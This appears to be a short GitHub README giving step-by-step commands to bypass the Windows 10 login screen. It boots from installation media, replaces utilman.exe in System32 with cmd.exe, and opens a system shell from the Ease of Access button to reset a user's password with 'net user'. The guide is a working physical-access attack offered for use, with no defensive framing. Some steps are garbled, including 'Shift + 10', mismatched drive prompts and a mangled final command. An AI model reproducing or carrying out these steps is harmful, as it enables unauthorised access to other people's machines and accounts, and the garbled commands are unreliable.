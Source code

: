 <h1 align="center">Bypass Windows Login Screen</h1>


## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and hit Shift + 10

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user may password
